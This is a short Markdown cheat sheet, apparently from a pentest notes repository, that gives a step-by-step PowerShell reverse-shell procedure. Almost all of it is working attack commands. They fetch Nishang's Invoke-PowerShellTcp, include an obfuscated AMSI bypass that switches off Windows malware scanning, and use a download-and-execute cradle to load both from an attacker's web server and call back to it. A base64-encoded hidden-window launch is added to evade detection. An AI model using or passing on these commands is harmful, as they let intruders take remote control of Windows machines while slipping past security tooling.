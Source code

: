 # Reverse shell trick

1. Create a webserver directory to host some files.

```
mkdir webserver
```

2\. Download Invoke-PowerShellTCP from Nishang in this directory.

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

3\. Save a amsi bypass in amsi.txt in this directory.

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

4\. Add the following to the bottom of Invoke-PowerShellTcp.ps1 so it executes the reverse shell after downloading the script and change the IP and PORT.

```
Invoke-PowershellTcp -Reverse -IPAddress <IP> -Port <PORT>
```

5\. Create a webserver from the webserver directory

```
python3 -m http.server 8090
```

6\. Use the following download and execute cradle to create a reverse shell, change the IP:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<IP>:8090/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://<IP>:8090/Invoke-PowerShellTcp2.ps1')
```

It is possible to make it a bit easier to get command execution using the following technique, need to be executed in PowerShell:

```
$str = 'iex (New-Object Net.WebClient).DownloadString("http://<IP>:8090/amsi.txt"); iex (New-Object Net.WebClient).DownloadString("http://<IP>:8090/Invoke-PowerShellTcp2.ps1")'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str)) | clip
powershell.exe -w hidden -enc <BASE64 STRING>
```












